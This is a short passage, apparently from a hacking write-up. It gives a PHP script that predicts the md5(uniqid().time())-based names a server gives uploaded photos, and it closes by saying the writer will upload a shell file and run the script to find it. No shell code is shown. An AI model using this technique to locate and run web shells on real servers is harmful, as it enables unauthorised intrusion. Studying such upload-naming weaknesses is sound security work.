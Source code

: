 
i generate php code that help me to detect new photo name :

```
<?PHP
#!/usr/bin/php
function uniqid_Test()
{
	$i=0;
	while ($i<80)
	{
		$hash_name=uniqid(); // return time in microsecond in hex format 
		//convert (hash_name ) to decimal value
		$Decimal_value =hexdec($hash_name); 
		$time_seconds=$Decimal_value*0.000001;

		#echo "uniqid (microseconds) = ".$hash_name."\n";

		#echo "(uniqid)-> Decimal value (microseconds)= ".$Decimal_value."\n";

		#echo "(uniqid)-> Decimal value (Seconds) = ".$time_seconds."\n";
		
		// from second to microsecond 
		$converted_id=($time_seconds+$i)/0.000001;
		
		$converted_id_hex=dechex($converted_id);

		echo date("D M j G:i:s T Y") ." -> ". md5($converted_id_hex.time())."\n";

		sleep(1);

		$i=$i+1;
	}

}
function time_Test()
{ 
	while (true)
	{
		echo date("G:i:s")." -> ".md5(uniqid().time())."pts.jpg"."\n";

		sleep(1);
	
	}


}

#uniqid_Test()
#time_Test()

	while (true)
	{
		echo date("G:i:s")." -> ". md5(uniqid().time()) . '_'. "pk.jpg";
		sleep(1);
		echo "\n";

		
	
	}

?>
```
so lets upload our shell file and run our script.
